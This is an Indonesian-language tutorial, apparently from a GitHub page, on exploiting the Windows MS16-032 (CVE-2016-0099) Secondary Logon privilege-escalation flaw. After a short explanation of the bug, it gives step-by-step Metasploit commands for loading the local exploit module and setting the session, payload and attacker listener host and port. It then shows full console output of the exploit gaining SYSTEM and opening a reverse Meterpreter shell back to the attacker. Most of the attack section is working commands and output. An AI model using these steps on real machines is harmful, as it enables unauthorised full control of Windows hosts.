 # MS16-032

## A. Apa itu MS16-032?

[MS16-032](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-0099) adalah kerentanan local privilege escalation pada sistem operasi Windows yang ditemukan pada layanan Secondary Logon Service (`seclogon.dll`). Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk menaikkan hak akses menjadi `SYSTEM`, yaitu level tertinggi di sistem Windows.

Eksploitasi ini terjadi karena adanya kesalahan pengelolaan handle token proses yang dilakukan oleh `seclogon.dll`, sehingga memungkinkan penyerang untuk menyisipkan proses baru dengan hak akses `SYSTEM` menggunakan teknik `CreateProcessWithLogonW()`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2016-0099`
- **Buletin Microsoft**: `MS16-032`
- **Tanggal Rilis**: `8 Maret 2016`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS16-032`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS16-032:

   ```
   msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] PS1 loaded from /usr/share/metasploit-framework/data/exploits/CVE-2016-0099/cve_2016_0099.ps1
   [*] Writing payload file, C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1...
   [*] Compressing script contents...
   [+] Compressed size: 3723
   [*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

   [?] Operating system core count: 2
   [>] Duplicating CreateProcessWithLogonW handle
   [?] Done, using thread handle: 1112

   [*] Sniffing out privileged impersonation token..

   [?] Thread belongs to: svchost
   [+] Thread suspended
   [>] Wiping current impersonation token
   [>] Building SYSTEM impersonation token
   [ref] cannot be applied to a variable that does not exist.
   At line:200 char:59
   +         $dhA = [Ntdll]::NtImpersonateThread($qdY, $qdY, [ref]$qi <<<< )
       + CategoryInfo          : InvalidOperation: (qi:Token) [], RuntimeExceptio 
      n
       + FullyQualifiedErrorId : NonExistingVariableReference
 
   [!] NtImpersonateThread failed, exiting..
   [+] Thread resumed!

   [*] Sniffing out SYSTEM shell..

   [>] Duplicating SYSTEM token
   Cannot convert argument "0", with value: "", for "DuplicateToken" to type "Syst
   em.IntPtr": "Cannot convert null to type "System.IntPtr"."
   At line:259 char:35
   +     $dhA = [Advapi32]::DuplicateToken <<<< ($nxfWT, 2, [ref]$isTl)
       + CategoryInfo          : NotSpecified: (:) [], MethodException
       + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
   [>] Starting token race
   [>] Starting process race
   [!] Holy handle leak Batman, we have a SYSTEM shell!!

   EpGsSpsRhiU1UMP9YNyfQwBdFAPYrXHh
   [+] Executed on target machine.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 8 opened (192.168.1.42:4444 -> 192.168.1.50:49161) at 2025-05-14 03:42:55 +0700
   [+] Deleted C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
